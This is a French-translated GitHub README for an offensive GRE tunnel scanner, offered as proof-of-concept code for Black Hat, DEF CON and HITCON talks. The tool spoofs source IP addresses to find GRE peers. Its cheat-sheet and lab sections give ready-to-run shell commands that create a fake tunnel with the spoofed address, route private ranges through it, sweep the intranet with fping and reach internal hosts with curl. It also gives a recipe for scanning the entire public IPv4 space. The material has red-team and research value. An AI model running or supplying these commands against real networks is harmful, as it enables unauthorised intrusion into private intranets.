 # Scanner de tunnel GRE
## ⚠️⚠️⚠️ IMPORTANT ⚠️⚠️⚠️
### ⚠️Cet outil inclut la falsification des adresses IP source. Veuillez vous assurer que vous disposez d'une autorisation légale pour l'utiliser.⚠️
## Référence
- Ceci est un code PoC pour les conférences : From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion
    - [Black Hat USA 2025 Briefing](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 Main Stage](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)
## Préparation
- `pip3 install requirement.txt`
## Utilisation
```
python3 main.py -i <interface> -lh <your_public_IP> -s <gre_src_ip_subnet or ip_list_file> -d  <gre_dst_ip_subnet or ip_list_file> -o <logfile>
```
## Exemple
- par exemple `1.1.1.1` et `2.2.2.2` ont un tunnel gre, vous êtes `3.3.3.3`
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2
INFO - sending gresrc 1.1.1.1, gredst 2.2.2.2
CRITICAL - Received reply from 2.2.2.2 GRE peer: 1.1.1.1
```
- Et comprendre comment exploiter un tunnel GRE
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2 -sch -l3
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=eth0
MYPUBIP=3.3.3.3
SRCADDR=1.1.1.1
DSTADDR=2.2.2.2
ip addr add  $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280

## route possible private ip ##
ip r add 10.0.0.0/8 dev gre1 src $MYPUBIP
ip r add 172.16.0.0/12 dev gre1 src $MYPUBIP
ip r add 192.168.0.0/16 dev gre1 src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! nmap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16

### cleanup ###
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```

- si vous connaissez le point de terminaison mais pas l'adresse du pair, vous pouvez faire quelque chose comme ceci  
  - `python3 main.py  -i eth0 -l3 -lh 3.3.3.3 -s 1.1.1.0/24 -d 2.2.2.2 -id 8.8.8.8`  
  - vous recevrez une réponse de 8.8.8.8 tout en obtenant le bon pair  

- réglage par défaut environ 500 paquets/seconde.  
## options  
- `-sch` : Affiche la feuille de triche et quitte (Entrez -i -lh -s -d que vous avez trouvé puis obtenez la commande d'abus du tunnel GRE)  
- `-l3` : Interface tunnel couche 3 (Par défaut : Faux)  
- `-r` : Place l’IP de destination GRE dans ICMP (Par défaut : Place l’IP source GRE)  
- `-ss` : Sauvegarde et utilise un fichier d’état (la dernière analyse reprendra) (Par défaut : Faux)  
  - Recommandé "on" dans un système de scan massif, parfois le script plante  
- `-i <interface>` : Interface pour envoyer les paquets  
- `-s <ip_ou_fichier>` : Un sous-réseau IP ou une liste d’IPs (sous-réseaux) à utiliser comme source GRE  
- `-d <ip_ou_fichier>` : Un sous-réseau IP ou une liste d’IPs (sous-réseaux) à utiliser comme destination GRE  
- `-L <fichier>` : scanner une liste de pairs GRE  
  - fichier, chaque ligne ressemble à ceci `1.1.1.1,2.2.2.2`  
- `-lh <ip>` : Une IP sur votre interface publique (l’IP sur l’interface -i)  
- `-o <fichier>` : Chemin du fichier log  
- `-t <float>` : Attendre combien de secondes après l’envoi du paquet GRE (Par défaut : 2)  
- `-T <int>` : Combien de threads envoient des paquets GRE en même temps (Par défaut : 255)  
- `-cs <int>` : Envoyer combien d’IPs avant de commencer à attendre la réponse ping (par défaut : 1000)  
- `-dp` : Faire privé - scanner les IP privées GRE (Par défaut : Faux)  
- `-id <ip>` : Adresse destination dans ICMP (Par défaut : même que la destination GRE)  
  - Utilisez ceci si vous connaissez l’adresse intranet interne  
- `-v <niveau_log>` : Niveau de log `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']` (Par défaut : INFO)  
  - Le log de détection de pair GRE est sur `CRITICAL`  


## meilleure façon de scanner l’IP publique complète
```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i  <interface> -lh <your_public_IP> -s aggrv4table.txt -d <your_target> -ss
```

## Laboratoire
### Vidéo de démonstration
- [Youtube](https://youtu.be/DDvfYl5-J28)
### Scanner un tunnel GRE
`python3 main.py -i <iface> -lh <votre_ip> -s 1.1.1.1 -d 160.25.104.199`
### Accéder et scanner l'intranet
```
#### Create Fake Tunnel ####
IFACE=eth0  #change this 
MYPUBIP=9.9.9.9  #change this
GATEWAY=1.2.3.4 #change this
SRCADDR=1.1.1.1 # lab info don't change
DSTADDR=160.25.104.199 # lab info don't change
ip addr add $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE via $GATEWAY src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280
### start scan intranet ###
fping -g 192.168.0.0/16

##### scan output #####
# 192.168.1.2 is alive

## test curl to web ##
curl 192.168.1.2
# YOU KNOW GRE!

#### cleanup ####
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```
## Avertissement  
Ce projet est destiné uniquement à des fins éducatives et de recherche. Toute action et/ou activité liée à ce code est de votre seule responsabilité. Les auteurs et contributeurs ne sont pas responsables de toute mauvaise utilisation ou dommage causé par ce projet. Veuillez vous assurer que vous disposez des autorisations appropriées avant de tester, utiliser ou déployer une partie de ce code dans n'importe quel environnement. L'utilisation non autorisée de ce code peut enfreindre les lois locales, étatiques et fédérales.  

## Licence  
Ce projet est sous licence MIT.




---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-10-11

---
